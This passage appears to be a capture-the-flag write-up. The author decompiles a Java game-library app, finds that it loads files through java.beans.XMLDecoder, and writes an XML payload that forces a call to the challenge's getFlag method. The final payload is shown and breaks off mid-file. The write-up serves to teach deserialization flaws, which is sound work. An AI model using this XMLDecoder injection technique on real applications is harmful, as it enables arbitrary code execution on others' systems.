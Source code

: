 ### Decompiling the JAR

Decompiling the jar file using JD-GUI gives us the source code where we have multiple packages and classes.

In the `GameFinder` class we see that a `LibraryController` Object is initialized and passed into the `Menus.mainMenu` method.

```java
LibraryController libraryController = new LibraryController();
Menus.mainMenu(libraryController);
```

`LibraryController`'s `saveLibrary` method seems to be saving a object after being xml encoded into the `filename + .gflib` . Now looking that the previous XML file made a lot of sense to me as the `<object>` property let us specify the class and the `<void>` property let us specify the properties and their values as well as the methods that will be called using `method=package.ClassName` . 

The `loadLibrary` method on the other hand just loads the file → Parses it and then casts it to the Library object.

I noticed the LibraryAnalyser class as well which had some interesting methods like the `getFlag()` method which could potentially be called by just adding the `<object class=controller.LibraryAnalyser>` and the `<void method="getFlag">` to the existing game library file. 

Editing the file that it gave me with the above data and then loading it in using the local app gave me the `Could not print flag?` message which is inside the getFlag function. 

```xml
***************************************
   ___ ___ _____ ___|  _|_|___ _| |___ ___ 
  | . | .'|     | -_|  _| |   | . | -_|  _| 
  |_  |__,|_|_|_|___|_| |_|_|_|___|___|_|   
  |___| 
  ***************************************
  *** Create and upload your library ***

Top Menu
1 - Load Library
2 - New Library
0 - Exit
1
Enter filename: huh.gflib
Could not print flag?
```

All that was left to do now was just upload the gflib file on the server and wait for it to process it and give me the flag.

### Final Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="11.0.9.1" class="java.beans.XMLDecoder">
  <object class="controller.LibraryAnalyser">
    <void method="getFlag"></void>
  </object>
 <object class="model.Library" id="Library0">
  <void property="games">
   <void method="add">
    <object class="model.Game">
     <void property="barcode">
      <int>9999</int>
     </void>
     <void property="name">
      <string>CyberFunk</string>
     </void>
     <void property="publisher">
```